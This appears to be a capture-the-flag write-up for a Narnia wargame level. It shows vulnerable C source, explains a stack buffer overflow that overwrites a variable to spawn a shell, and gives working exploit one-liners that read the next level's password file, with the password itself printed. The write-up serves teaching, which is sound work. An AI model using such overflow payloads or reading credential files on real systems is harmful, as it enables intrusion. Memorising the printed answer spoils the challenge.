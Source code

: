 For this level, we need to do a buffer overflow attack to allow an injection shell command to get the password. To facilitate that, let's first look at the source code provided:
```
#include <stdio.h>
#include <stdlib.h>

int main(){
    long val=0x41414141;
    char buf[20];

    printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
    printf("Here is your chance: ");
    scanf("%24s",&buf);

    printf("buf: %s\n",buf);
    printf("val: 0x%08x\n",val);
    
    if(val==0xdeadbeef){
        setreuid(geteuid(),geteuid());
        system("/bin/sh");
    }
    else {
        printf("WAY OFF!!!!\n");
        exit(1);
    }

    return 0;
}
```
From the source, we observe:

    - A buffer named buf of length 20 bytes.
    - A variable val initialized with the value 0x41414141 that needs to be transformed into 0xdeadbeef.
    - A vulnerable scanf function reading 24 bytes of input, which allows for a buffer overflow.
    - The program checking if the value of val is 0xdeadbeef. If this condition is met, the program spawns a shell.

So, our main focus is the buffer overflow attack. To do this, we need to overflow the buffer (by inputting more than 20 bytes) in `buf` and below the scanf buffer of 24 to change the values in `val`; 

To summarise, our objective is to overflow `buf` such that `val` is overwritten with the desired value `0xdeadbeef`.

Execution:
```
narnia0@gibson:/narnia$ echo -e "$(printf 'A%.0s' {1..20})\xef\xbe\xad\xde cat /etc/narnia_pass/narnia1" | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ�
val: 0xdeadbeef
```

Here, "\xef\xbe\xad\xde" represents 0xdeadbeef in little-endian byte ordering. We prepend this with 20 'A' characters to fill the buffer and overflow into the `val` variable. However, the above code does not open up a terminal.

To solve this issue of terminal not opening up, we can try using shell commands `cat` to make the buffer "hang":
```
narnia0@gibson:/narnia$ (echo -e "$(printf 'A%.0s' {1..20})\xef\xbe\xad\xde"; cat) | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ�
val: 0xdeadbeef
cat /etc/narnia_pass/narnia1
eaa6AjYMBB
```
This finally gives us the password.
